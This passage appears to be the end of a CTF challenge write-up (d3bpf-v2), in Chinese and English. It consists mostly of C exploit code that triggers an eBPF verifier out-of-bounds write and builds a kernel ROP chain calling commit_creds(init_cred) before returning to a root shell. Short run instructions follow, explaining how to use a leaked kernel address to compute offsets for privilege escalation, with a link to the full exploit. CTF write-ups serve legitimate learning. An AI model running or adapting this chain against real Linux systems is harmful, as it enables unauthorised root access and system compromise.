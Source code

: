```clike=
        size_t rop_buf[0x100];
        int i = 0;
        rop_buf[i++] = 0xDEADBEEF13377331;
        rop_buf[i++] = 0xDEADBEEF13377331;
        rop_buf[i++] = pop_rdi_ret;
        rop_buf[i++] = init_cred;
        rop_buf[i++] = commit_creds;
        rop_buf[i++] = swapgs_restore_regs_and_return_to_usermode;
        rop_buf[i++] = 0;
        rop_buf[i++] = 0;
        rop_buf[i++] = &get_root;
        rop_buf[i++] = user_cs;
        rop_buf[i++] = user_rflags;
        rop_buf[i++] = user_rsp;
        rop_buf[i++] = user_ss;
        struct bpf_insn oob_test[] = {
            trigger_bug(),
            BPF_ALU64_IMM(BPF_MUL, EXP_REG, (0x100 - 8)),
            BPF_MOV64_IMM(BPF_REG_2, 0),
            BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
            BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -8),
            BPF_MOV64_IMM(BPF_REG_4, 8),
            BPF_ALU64_REG(BPF_ADD, BPF_REG_4, EXP_REG),
            BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes), 
            BPF_EXIT_INSN()
        };

        if (0 != run_bpf_prog(oob_test, sizeof(oob_test) / sizeof(struct bpf_insn), NULL, rop_buf, 0x100))
        {
            error_exit("[-] Failed to run bpf program\n");
        }
    }

    return 0;
}
```

首先运行 exp，然后通过打印出的信息获取内核地址，计算出偏移。然后重新运行 exp 并提供偏移即可实现提权。

First run exp, then get the kernel address from the printed information and calculate the offset. Then re-run exp and provide the offset to achieve the privilege escalation.

一些头文件没有放在这里，完整的 exp 在[我的 GitHub 仓库](https://github.com/chujDK/my-ctf-challenges/tree/main/d3bpf-v2)中。

Some of the header files are not here, the full exp is in [my GitHub repository](https://github.com/chujDK/my-ctf-challenges/tree/main/d3bpf-v2).
